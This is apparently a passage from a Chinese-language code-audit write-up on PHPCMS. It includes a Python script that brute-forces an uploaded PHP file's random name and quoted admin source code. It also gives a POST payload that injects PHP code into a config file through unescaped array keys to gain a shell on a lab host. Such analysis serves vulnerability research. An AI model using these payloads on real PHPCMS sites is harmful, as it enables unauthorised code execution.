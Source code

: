 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131734088.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131735901.png)

但由于`rand(100,999)`的存在,需要编写脚本去爆破才能得到具体的文件名

```python
import requests
import time

url='http://192.168.241.130:8080/uploadfile/2022/0313/202203130533%s'

for i in range(49000,50000):
    r=requests.get(url=url%(str(i)+'.php'))
    if r.status_code==200:
        print(i)
        break
    if i%100==0:
        time.sleep(5)
```

## phpsso_server/phpcms/modules/admin/system.php后台getshell

```php
public function uc()
{
    if (isset($_POST['dosubmit'])) {
        $data = isset($_POST['data']) ? $_POST['data'] : '';
        $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
        $filepath = CACHE_PATH . 'configs' . DIRECTORY_SEPARATOR . 'system.php';
        $config = include $filepath;
        $uc_config = '<?php ' . "\ndefine('UC_CONNECT', 'mysql');\n";
        foreach ($data as $k => $v) {
            $old[] = "'$k'=>'" . (isset($config[$k]) ? $config[$k] : $v) . "',";
            $new[] = "'$k'=>'$v',";
            $uc_config .= "define('" . strtoupper($k) . "', '$v');\n";
        }
        $html = file_get_contents($filepath);
        $html = str_replace($old, $new, $html);
        $uc_config_filepath = CACHE_PATH . 'configs' . DIRECTORY_SEPARATOR . 'uc_config.php';
        @file_put_contents($uc_config_filepath, $uc_config);
        @file_put_contents($filepath, $html);
        $this->db->insert(array('name' => 'ucenter', 'data' => array2string($data)), 1, 1);
        showmessage(L('operation_success'), HTTP_REFERER);
    }
    $data = array();
    $r = $this->db->get_one(array('name' => 'ucenter'));
    if ($r) {
        $data = string2array($r['data']);
    }
    include $this->admin_tpl('system_uc');
}
```

```
http://192.168.241.130:8080/phpsso_server/index.php?m=admin&c=system&a=uc

POST: dosubmit=1&data[asdf','qwer');?><?php phpinfo();?>asdf]=asdf
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131926371.png)